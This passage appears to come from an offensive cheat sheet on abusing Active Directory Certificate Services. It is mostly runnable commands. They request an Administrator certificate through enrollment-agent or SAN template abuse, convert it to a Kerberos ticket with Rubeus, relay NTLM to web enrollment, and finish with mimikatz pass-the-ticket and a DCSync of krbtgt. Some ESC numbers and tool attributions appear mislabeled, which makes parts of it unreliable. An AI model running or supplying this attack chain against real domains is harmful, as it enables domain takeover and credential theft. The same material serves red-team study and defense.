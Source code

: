 ### 3) ESC6: Enrollment Agent (EA) Abuse
```powershell
# Find templates with EnrollmentAgent EKU
.\Certify.exe find /enrollmentAgent

# Request EA certificate (requires enroll rights)
.\Certify.exe request /ca:CA01.cybercorp.local /template:EnrollmentAgent /outfile:ea.pfx /password:P@ssw0rd!

# Use EA to request on behalf of Administrator
.\Certify.exe request /ca:CA01.cybercorp.local /template:User /onbehalfof:administrator@cybercorp.local \
  /enrollcert:ea.pfx /enrollcertpw:P@ssw0rd! /outfile:admin.pfx /password:P@ssw0rd!

# Turn cert into TGT
.\Rubeus.exe asktgt /user:Administrator /certificate:admin.pfx /password:P@ssw0rd! /outfile:admin.kirbi
```

### 4) ESC8: Weak ACLs on Templates/CA Objects (WriteOwner/WriteDACL)
```powershell
# Discover weak ACLs on pKI objects
Get-DomainObject -LDAPFilter "(objectClass=pKICertificateTemplate)" -Properties nTSecurityDescriptor,displayName | \
  Where-Object { $_.nTSecurityDescriptor -match "WriteOwner|WriteDACL" } | \
  Select-Object displayName

# If you can modify template: add EnrolleeSuppliesSubject and ClientAuth EKU, then abuse as in ESC1/ESC3
```

### 5) Web Enrollment/NTLM Relay to AD CS (HTTP Enrollment)
```bash
# If HTTP enrollment is enabled (certsrv), relay NTLM to obtain a cert (PetitPotam/Coercer chain)
# 1) Coerce auth to web enrollment
coercer relay -t http://ca01.cybercorp.local/certsrv -l 0.0.0.0 -r 445

# 2) Relay and auto-request certificate (roadtools or custom relayer)
# Ensure target template allows client auth and enrollee supplies subject
```

---

## 🎯 End-to-End Example: From Template to DA Access
```powershell
# 1) Identify vulnerable template
.\Certify.exe find /enrolleeSuppliesSubject

# 2) Request Administrator certificate via SAN
.\Certify.exe request /ca:CA01.cybercorp.local /template:User /altname:administrator@cybercorp.local /outfile:admin.pfx /password:P@ssw0rd!

# 3) Get TGT via PKINIT
.\Rubeus.exe asktgt /user:Administrator /certificate:admin.pfx /password:P@ssw0rd! /outfile:admin.kirbi

# 4) Inject and operate
.\mimikatz.exe "kerberos::ptt admin.kirbi" "exit"

# 5) Lateral move and DCSync (example)
Invoke-Mimikatz -Command '"lsadump::dcsync /user:cybercorp\\krbtgt"'
```
